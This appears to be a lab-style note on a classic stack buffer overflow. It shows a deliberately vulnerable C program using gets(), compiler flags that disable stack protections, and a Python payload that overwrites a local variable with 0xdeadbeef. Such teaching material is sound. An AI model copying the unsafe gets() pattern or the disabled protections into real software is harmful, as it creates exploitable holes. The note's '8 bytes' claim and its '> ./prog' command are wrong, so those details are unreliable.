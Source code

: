 ```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

```bash
gcc prog.c -o prog -fno-stack-protector -z execstack -no-pie -m32
```

This is vulnerable to stack overwriting. The buffer is 32 bytes. This suffers from the same vulnerability as [[Simple login example]]. Even though in the code, `key` looks like it's created and put on the stack before `buffer`, in actuality, the compiler makes it so that the code will initialize `buffer` first, then `key`, then initialize `key` with the value `0x12345678`. We can actually confirm this by running it through Ghidra or any disassembler. So we can overflow this by inputing 32 characters + 8 bytes: `0xdeadbeef`. This is a little endian program so we'd have to input the bytes as little-endian `\xef\xbe\xad\xde`.

We can create a python script for this (have to import `sys`, a bit clunky but it's cuz of how `python3` handles byte strings):

```python
python -c 'import sys; sys.stdout.buffer.write(b"A" * 32 + b"\xef\xbe\xad\xde")' > ./prog
```